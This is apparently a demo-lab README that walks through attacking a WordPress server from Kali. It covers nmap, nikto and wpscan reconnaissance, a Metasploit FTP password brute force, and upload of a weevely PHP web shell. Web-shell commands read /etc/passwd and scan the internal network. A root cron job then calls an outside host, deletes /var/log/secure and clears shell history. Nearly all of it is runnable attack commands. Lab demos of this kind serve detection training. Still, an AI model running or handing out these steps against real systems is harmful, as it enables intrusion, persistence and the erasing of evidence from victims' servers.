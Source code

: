 # Attack the WP Instance from the KALI System

1. SSH into the Kali Instance and run the from command line run the following chunks of code:

```
sudo su
export TARGET_IP=3.15.211.63 # <--Set this to the External IP Address of the WP Instance
```

Perform a nmap scan

```
nmap -Pn -A -T4 $TARGET_IP
```

Use nikto to scan the Web Server

```
nikto -h $TARGET_IP
```

Set the WPscan API token. You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up. I purposely didn't want to save it to github or have it show in the recording of the demo.

```
bash
export TOKEN=     #Set this variable to your API token
exit
```

Run wpscan on your wordpress instance

```
wpscan --url $TARGET_IP/wordpress --enumerate p --api-token $TOKEN
```

Fetch a password list and add the WordPress password to the bottom to allow the brute force attack to be successful. Use Metasploit to perform the brute forcing.

```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt
head -n 15 ftp-betterdefaultpasslist.txt > passwordlist.txt
echo "root:password123456" >> passwordlist.txt
sed -i 's/:/ /' passwordlist.txt
msfconsole -x "use auxiliary/scanner/ftp/ftp_login; set BRUTEFORCE_SPEED 3; \
  set STOP_ON_SUCCESS true; set RHOSTS $TARGET_IP; \
  set USERPASS_FILE passwordlist.txt; run; exit"
```

Set up a web shell with the compromised FTP credential

```
git clone https://github.com/epinna/weevely3.git
apt-get install -y python3 python3-pip curl
cd weevely3/
pip3 install -r requirements.txt --upgrade
./weevely.py generate mypassword maint.php
ftp -inv $TARGET_IP <<EOF
user root password123456
passive
cd /var/www/html/wordpress/wp-content/plugins/
put maint.php
bye
EOF
./weevely.py http://$TARGET_IP/wordpress/wp-content/plugins/maint.php mypassword
```

Run these commands on the webshell

```
whoami
uname -a
:audit_etcpasswd
cd /var/www/html
:file_download wordpress-4.4.tar.gz /tmp/wordpress-4.4.tar.gz
cd /var/www/html/wordpress/wp-content/plugins
:net_scan 172.31.44.1-172.31.44.10 1-666
```

SSH back into the WP instance and as root, make a bot that phones home:
```
sudo su
rm -f /var/www/html/wordpress/wp-content/plugins/phone
cp /usr/bin/nmap /var/www/html/wordpress/wp-content/plugins/phone
cat << "EOF" > /sbin/phonehome
HOMEBASE=$(curl -s http://www.malwaredomainlist.com/updatescsv.php | head -n 1 | cut -d"," -f3 | tr -d "\42")
/var/www/html/wordpress/wp-content/plugins/phone -sT $HOMEBASE -p 666 >> /var/www/html/wordpress/wp-content/plugins/instant-web-highlighter/logs.txt
rm -f /var/log/secure
history -c
EOF
chmod +x /sbin/phonehome
touch /var/spool/cron/root
echo "*/5 * * * * /sbin/phonehome > /dev/null" >> /var/spool/cron/root
history -c
```
